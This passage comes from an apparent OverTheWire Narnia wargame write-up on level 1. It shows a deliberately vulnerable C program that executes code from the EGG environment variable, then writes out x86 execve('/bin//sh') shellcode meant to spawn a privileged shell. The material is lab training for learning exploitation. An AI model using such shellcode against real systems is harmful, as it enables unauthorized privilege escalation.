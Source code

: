 The second level starts with:
```c
narnia1@melinda:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG

narnia1@melinda:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
 int (*ret)();

 if(getenv("EGG")==NULL){
 printf("Give me something to execute at the env-variable EGG\n");
 exit(1);
 }

 printf("Trying to execute EGG!\n");
 ret = getenv("EGG");
 ret();

 return 0;
}
```

The program searches for an environment variable **EGG** and then it exits if this variable doesn't exist. If it does, **EGG**'s value is passed as a function. Really secure.



### Step 1: Creating an Environment Variable with our Exploit

The most obvious option for an exploit is to spawn a privileged shell, so that we can read the next level's password.

Let's suppose we don't know that we need to write the exploit in memory language. We could try this:
```sh
narnia1@melinda:/narnia$ export EGG="/bin/ls"
narnia1@melinda:/narnia$ echo $EGG
/bin/ls
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
```

Nope.

We actually need to create a hexadecimal command to export to **EGG**. We do this in Assembly and all the information we need is in the [Appendix A] from [Aleph One]'s paper. This allows us to write the following:

[Appendix A]: http://insecure.org/stf/smashStack.html



```sh
narnia1@melinda:/tmp$ vi shellspawn.asm
xor eax, eax ; make eax equal to 0
push eax ; pushes null
push 0x68732f2f ; pushes /sh (//)
push 0x6e69622f ; pushes /bin
mov ebx, esp ; passes the first argument
push eax ; empty third argument
mov edx, esp ; passes the third argument
push eax ; empty second argument
mov ecx, esp ; passes the second argument
mov al, 11 ; execve system call #11
int 0x80 ; makes an interrupt
```


[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://singularity.miavonsteinkirch.com/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP
